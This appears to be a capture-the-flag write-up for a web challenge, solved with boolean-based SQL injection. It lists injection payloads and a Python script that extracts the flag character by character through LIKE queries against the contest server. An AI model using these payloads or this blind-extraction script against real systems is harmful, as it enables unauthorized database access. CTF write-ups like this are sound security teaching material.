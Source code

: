 # Flushed Emoji

```
score: 165      
solved: 80/xxx      
difficulty: easy        
tags: web, boolean-base sqli        
```

## Problem

80 solves / 165 points
Hi guys! I just learned sqlite3 build my own websiteeee. Come visit my my website pleaseeee i am ami the dhedghog!!! :3 ( ◡‿◡ *)


## Try Sqli 

- I send any string 'a' -> `wrong!!! (｡•̀ᴗ-)✧ `
- I send pyload `' or 1=1 -- -`  -> `(≧U≦❁) You got it!!! `


## "Ăn rùa"
- I try send payload: `' or name like 'LITCTF%' -- -` and result: `(≧U≦❁) You got it!!! `.  Pass
- I make a script for brute force flag 

```py
import requests
import re
import sys, json
import string
def blindSqli():
    extracted_data = ""
    for index in range(1,33):
        for i in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!{}#$&()*+,-./:;<=>?@[\\]^`{|}~_":
            query = "' or name like 'LITCTF{"+extracted_data+i+"%' ESCAPE '@' -- -"	
            data= {"name": query}
            header = {"Content-Type": "application/x-www-form-urlencoded"}
                #print(data)
            r = requests.post("http://litctf.live:31770/", headers=header, data=data)
            print(i,  extracted_data)
            if "You got it" in r.text:	
                extracted_data += i
                print(extracted_data)
                break
    return extracted_data

if __name__ == "__main__":
    blindSqli()


```

We got the flag: `LITCTF{sldjf}`